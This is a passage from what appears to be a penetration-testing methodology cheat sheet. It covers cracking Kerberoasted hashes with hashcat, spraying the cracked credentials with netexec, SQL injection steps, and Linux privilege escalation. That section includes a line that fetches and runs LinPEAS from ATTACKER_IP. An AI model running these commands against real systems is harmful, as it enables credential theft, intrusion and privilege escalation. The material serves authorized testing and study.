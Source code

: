 **If Kerberoasting Successful:**
```bash
# Crack service account password
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt

# Test cracked credentials
netexec smb 10.10.10.0/24 -u SERVICE_ACCOUNT -p 'CRACKED_PASS'
netexec mssql 10.10.10.0/24 -u SERVICE_ACCOUNT -p 'CRACKED_PASS'

# Often service accounts have admin on SQL servers
# → Access SQL server
# → Enable xp_cmdshell
# → Command execution
# → Pivot from there
```

**Priority 3: Web Application Exploitation**

```bash
# SQL Injection workflow:
# 1. Confirm manually
curl "http://TARGET/page.php?id=1'"  # Error?

# 2. Extract database
# Manual UNION queries or sqlmap

# 3. Find credentials in database 

# 4. Test credentials everywhere 
# → SSH, SMB, RDP, other web apps

# 5. Document 
```

### Phase 5: Post-Exploitation

**Once you have shells, escalate privileges and pivot**

**Privilege Escalation Workflow:**

Linux:
```bash
# 1. Stabilize shell 
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z, then: stty raw -echo; fg

# 2. Quick manual checks
sudo -l  # Most important!
id  # Groups?
find / -perm -4000 -type f 2>/dev/null  # SUID

# 3. Run LinPEAS
wget http://ATTACKER_IP/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh

# 4. Review output and exploit 
# - sudo with NOPASSWD → GTFOBins
# - Docker group → docker mount exploit
# - SUID binary → specific exploit
# - Writable /etc/passwd → add root user

# 5. If no clear path after a good amount of time... move on
# Document current access level
```
